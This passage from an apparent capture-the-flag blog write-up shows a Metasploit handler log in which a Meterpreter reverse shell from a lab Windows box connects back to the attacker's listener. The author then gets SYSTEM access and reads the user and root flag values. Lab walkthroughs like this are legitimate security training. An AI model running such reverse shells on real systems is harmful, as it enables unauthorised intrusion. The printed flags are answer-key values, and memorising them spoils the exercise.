 ```
PS C:\Users\kostas\Desktop>
```

And on the reverse shell handler tab, you can see that it already caught the reverse shell executed by the exploit and there it goes, I already had a root access on the system.

**Reverse Shell Tab**

```
msf exploit(handler) > 
[*] Sending stage (179267 bytes) to 10.10.10.8
[*] Meterpreter session 2 opened (10.10.14.116:1337 -> 10.10.10.8:50253) at 2017-10-14 12:23:26 -0400

msf exploit(handler) > sessions -i 1
[*] Starting interaction with 1...

meterpreter > shell
Process 752 created.
Channel 1 created.
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\Users\kostas\Desktop>whoami
whoami
nt authority\system

C:\Users\kostas\Desktop>more user.txt.txt
more user.txt.txt
d0c39409d7b994a9a1389ebf38ef5f73

C:\Users\kostas\Desktop>cd C:\Users
cd C:\Users

C:\Users>cd Administrator
cd Administrator

C:\Users\Administrator>cd Desktop
cd Desktop

C:\Users\Administrator\Desktop>more root.txt
more root.txt
51ed1b36553c8461f4552c2e92b3eeed

C:\Users\Administrator\Desktop>
```

I have now the user and root hashes of the box.

---

**Subscribe for more!**

To stay up to date with my latest posts and more InfoSec guides, make sure to subscribe to this blog by entering your email address below.

I promise I won’t be spamming your mailbox. Because no one loves spam. AMIRIGHT?

![](https://i0.wp.com/anotsodev.me/wp-content/uploads/2020/04/more-spam.gif?resize=768%2C576&ssl=1)